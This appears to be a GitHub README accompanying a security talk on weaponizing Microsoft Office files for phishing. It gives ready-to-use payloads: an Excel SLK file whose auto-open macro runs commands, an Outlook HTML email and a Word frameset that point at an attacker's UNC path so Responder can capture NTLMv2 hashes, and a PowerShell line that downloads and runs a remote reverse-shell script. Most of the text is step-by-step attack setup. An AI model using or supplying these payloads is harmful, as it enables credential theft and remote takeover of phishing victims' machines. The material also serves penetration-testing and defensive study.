 # Weaponizing-Office

## Introduction:
I did a talk at [0xC0ffee](https://0xc0ffee.co.za), where I discussed different ways to weaponize microsoft office.
What was different about the talk, was that these methods have been discovered prior to 2018, and did not require a lot of user interaction to execute the payloads. These methods work great with phishing attacks.

I decided not to use a standard way to present my talk, so [@MTB_m00se](https://twitter.com/MTB_m00se) introduced me to terminal markdown where I found [patat](https://github.com/jaspervdj/patat)

I recently discovered a tool called [Responder[(https://github.com/SpiderLabs/Responder), which I used in my talk.
I mainly used Responder to capture NTLMv2 hashes from victom machines.

I found a great [article](https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4) explaining what is NTLMv2 hashes and what can be done with it.

Below is a short extract from the article:
> This is the way passwords are stored on modern Windows systems, and can be obtained by dumping the SAM database, or using Mimikatz. They are also stored on domain controllers in the NTDS file. These are the hashes you can use to pass-the-hash.

## Contents:

1. Excel (.SLK)
2. Outlook (file://)
3. Word (frameset)

A common finding in penetration tests is that clients are not properly managing egress packet filtering from their network to the internet. This post specifically talks about the dangers of allowing egress of SMB communications over port 445 to the internet, and one simple method of exploiting it to capture a user's credentials, crack them, and gain access to the network.

Objective is to capture NTLMv2 hashes by using the above programs. The user should not have to do more than 1 click after downloading the office file. 

```BONUS: will try to get reverse shells as well```

## 1. Excel (.SLK)

> An SLK file is a file saved in the Symbolic Link (SYLK) format created by Microsoft to transfer data between spreadsheet programs and other databases. 

I found this exploit on [ired.team](https://ired.team/offensive-security/phishing-with-ms-office/phishing-.slk-excel) which gave a great walkthrough oh how to exactact perform RCE in an SLK file.

### Excel RCE 

#### Setup
1. Create an new text file, put the the below code and save it as .slk file:
```
ID;P
O;E
NN;NAuto_open;ER101C1;KOut Flank;F
C;X1;Y101;K0;EEXEC("c:\shell.cmd")
C;X1;Y102;K0;EHALT()
E
```
2. DONE `HOLY SHIT THAT WAS HARD!!`

#### Capture NTLMv2 Hash

Setup Responder `./Responder.py -I ens4 -vvv`

Replace `c:\shell.cmd` with `cmd.exe /c \\IP\IPC$`. Please make sure the IP is your IP.

Once the file.slk is opened the user will need to click on `Enable Content`. Once the user clicks the button the payload is executed. Once the button is clicked Excel, every time after that the payload will be executed when the file is openned (Unless the files is renamed).

![](excel_NTLMv2_hash_capture.gif)

#### Excel RCE - Powershell Reverse shell(BONUS)

1. Change the `cmd.exe /c \\IP\IPC$` to 

````
	powershell IEX 
	(New-Object Net.WebClient).DownloadString(
	'http://192.168.56.101/test.ps1')
````
2. set up `test.ps1` on a server. 
test.ps1 is a [powershell reverse shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell)

DONE...

![](excel_NTLMv2_hash_reverse.gif)

More on [Symbolic Link](https://en.wikipedia.org/wiki/SYmbolic_LinK_(SYLK)) files

## 2. Outlook (file://)

### Steps:
1. Create HTML email
2. `<img src="file://IP/fakeimage.png" />`
3. Send email! Important!

![](outlook_capture_hash.gif)

NOTE: `the user only needs to download the image once. As the POC shows, once the email is openned again, the hash is captured`

Though: can this be uses as a [DOS attack](https://www.kb.cert.org/vuls/id/867968/)?


## 3. Word (frameset)

> Historically Microsoft Word was used as an HTML editor. This means that it can support HTML elements such as framesets. It is therefore possible to link a Microsoft Word document with a UNC path and combing this with responder in order to capture NTLM hashes externally.

### Setup (more complicated)

1. Create a word document
2. Write anything into the document
3. Save Document
4. Right click on document -> Open archive
5. Edit \file.docx\word\webSettings.xml
6. Add the following to the file between `<w:optimizeForBrowser/>` xml tag

````
<w:frameset>
<w:framesetSplitbar>
<w:w w:val="60"/>
<w:color w:val="auto"/>
<w:noBorder/>
</w:framesetSplitbar>
<w:frameset>
<w:frame>
<w:name w:val="3"/>
<w:sourceFileName r:id="rId1"/>
<w:linkedToFile/>
</w:frame>
</w:frameset>
</w:frameset>
````

7. Create file \file.docx\word\_rels\webSettings.xml.rels

````
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships
xmlns="http://schemas.openxmlformats.org/package/2006/relationships">
<Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/frame" Target="\\IP\Microsoft_Office_Updates.docx" TargetMode="External"/>
</Relationships>
````
8. DONE!!!

POC is too long to make a GIF

More information on [Framesets](https://pentestlab.blog/2017/12/18/microsoft-office-ntlm-hashes-via-frameset/)

